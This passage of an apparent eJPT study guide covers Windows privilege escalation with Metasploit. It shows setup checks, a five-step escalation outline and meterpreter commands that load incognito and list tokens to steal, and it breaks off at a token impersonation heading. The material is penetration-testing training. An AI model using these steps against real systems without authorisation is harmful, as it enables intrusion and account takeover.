### **Check If Everything Works:**
```bash
# Check if Metasploit is installed
msfconsole --version
# Expected output: Framework Version 6.x.x

# Start Metasploit database
msfdb start

# Check privilege escalation modules
msfconsole -q -x "search local windows; exit"
# Expected: List of Windows local exploitation modules
```

### **Basic Requirements:**
- Existing access to Windows system (shell or meterpreter session)
- Network connectivity to target system
- Basic understanding of Windows user accounts and permissions

---

## 🔧 Basic Usage and Simple Steps

### **📋 Simple Escalation Process:**
1. **🔍 Check Current Status:** See what privileges you already have
2. **📊 Enumerate System:** Gather information about the Windows system
3. **🎯 Identify Opportunities:** Find potential escalation paths
4. **⚡ Execute Technique:** Use appropriate escalation method
5. **✅ Verify Success:** Confirm you got higher privileges

### **⚙️ Basic Command Structure:**
```bash
# Start with existing session
meterpreter > getuid
# Check current user

# Load escalation tools
meterpreter > load incognito
# Load token impersonation tools

# Execute escalation
meterpreter > list_tokens -u
# Find available tokens to steal
```

---

## ⚙️ Essential Privilege Escalation Techniques

### **🎭 Method 1: Token Impersonation (Most Important for eJPT)**
